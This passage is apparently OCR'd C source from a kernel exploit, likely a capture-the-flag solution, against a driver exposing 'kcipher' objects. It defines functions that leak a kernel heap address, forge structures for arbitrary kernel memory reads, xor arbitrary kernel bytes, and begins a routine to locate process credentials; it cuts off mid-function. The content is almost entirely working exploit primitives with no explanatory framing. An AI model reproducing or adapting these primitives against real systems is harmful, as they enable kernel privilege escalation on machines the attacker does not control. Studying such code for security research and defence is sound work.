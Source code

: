 ```

uint64_t kheap;
uint64_t cred_addr;

void leak_kheap() {
    // requires cfd[0]->str = cfd[1], cfd[0]->byt=0x41
    // requires cfd[1]->str = some-kheap (cfd[2] for example)
    struct kcipher cfd1;
    read(cfd[0], &cfd1, sizeof(cfd1));
    read(cfd[0], &cfd1, sizeof(cfd1)); // de-xor
    kheap = cfd1.str;
    printf("[*] kheap: %llx\n", kheap);
}

void arbread(uint64_t addr, char* buf, uint64_t size) {
    // requires cfd[1]->str = cfd[2], cfd[1]->byt=0x43
    struct kcipher fake = {
        .ciph_id = 1, // xor
        .byt = 0x00,  // for read: does not change contents
        .size = size,  // size_t
        .str = addr, 
        .lock = 0x0
    };

    xor(&fake, 0x43, sizeof(fake));
    EXIT_ON_ERR(write(cfd[1], &fake, sizeof(fake)) < 0);
    // de-xor
    struct kcipher fake_in_kernel;
    EXIT_ON_ERR(read(cfd[1], &fake_in_kernel, sizeof(fake_in_kernel)) < 0);
    assert(fake_in_kernel.str == addr);
    assert(fake_in_kernel.size == size);
    assert(fake_in_kernel.byt == 0);

    EXIT_ON_ERR(read(cfd[2], buf, size) < 0);
}

char arbxor(uint64_t addr, char byt) {
    struct kcipher fake = {
        .ciph_id = 1, // xor
        .byt = byt,  // for read: does not change contents
        .size = 1,  // size_t
        .str = addr, // arb addr, will be overwritten
        .lock = 0x0
    };

    xor(&fake, 0x43, sizeof(fake));
    EXIT_ON_ERR(write(cfd[1], &fake, sizeof(fake)) < 0);
    // de-xor
    struct kcipher fake_in_kernel;
    EXIT_ON_ERR(read(cfd[1], &fake_in_kernel, sizeof(fake_in_kernel)) < 0);
    assert(fake_in_kernel.str == addr);
    assert(fake_in_kernel.size == 1);
    assert(fake_in_kernel.byt == byt);


    char newbyte;
    EXIT_ON_ERR(read(cfd[2], &newbyte, 1) < 0);
    return newbyte;
}

void find_cred() {
    // requires `kheap`

```